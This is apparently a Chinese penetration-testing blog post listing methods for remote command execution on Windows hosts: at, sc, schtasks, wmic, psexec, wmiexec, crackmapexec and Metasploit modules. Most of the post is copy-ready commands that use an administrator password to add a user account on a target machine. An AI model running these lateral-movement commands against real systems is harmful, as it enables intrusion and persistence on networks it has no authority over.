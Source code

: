 ```yaml
---
title: "Windows 常用远程执行命令的手段"
date: 2019-07-15T00:00:00+08:00
draft: false
tags: ['windows']
categories: ['内网渗透']
author: "X1r0z"

# weight: 1  # Top page

# You can also close(false) or open(true) something for this content.
# P.S. comment can only be closed
comment: false
toc: false
autoCollapseToc: false
---
```


windows 下远程执行命令的一些方法.

<!--more-->

## at

历史久远.

```
net use \\192.168.1.100\ipc$ 123456 /user:administrator
at \\192.168.1.100 12:00 net user test test /add
```

注意 `at` 后的命令无须加引号.

## sc

运行服务.

```
net use \\192.168.1.100\ipc$ 123456 /user:administrator
sc \\192.168.1.100 create test binPath= "cmd.exe /c net user test test /add"
sc \\192.168.1.100 start test
```

## schtasks

用于替代 `at`

```
schtasks /S 192.168.1.100 /U administrator /P 123456 /TN test /TR "cmd.exe /c net user test test /add" /SC ONCE /ST 12:00
```

## wmic

Windows Management Instrumentation Cli.

```
wmic /node:192.168.1.100 /user:administrator /password:123456 process call create "cmd.exe /c net user test test /add"
```

## psexec

会留日志.

```
psexec \\192.168.1.100 -u administrator -p 123456 net user test test /add
```

注意 `psexec` 后的命令无须加引号.


## wmiexec

wmic 的可回显版本.

```
cscript wmiexec.vbs /cmd 192.168.1.100 administrator 123456 "net user test test /add"
```

## crackmapexec

不仅限于远程执行命令.

```
crackmapexec 192.168.1.100 -u administrator -p 123456 -x "net user test test /add"
```

## Metasploit

Metasploit 中针对 psexec 的利用模块.

```
auxiliary/admin/smb/ms17_010_command
auxiliary/admin/smb/psexec_command
exploit/windows/smb/ms17_010_psexec
exploit/windows/smb/psexec
exploit/windows/smb/psexec_psh
```

简单说一下 auxiliary 和 exploit 的区别, 前者仅限于执行命令, 而后者可以反弹 Meterpreter 会话.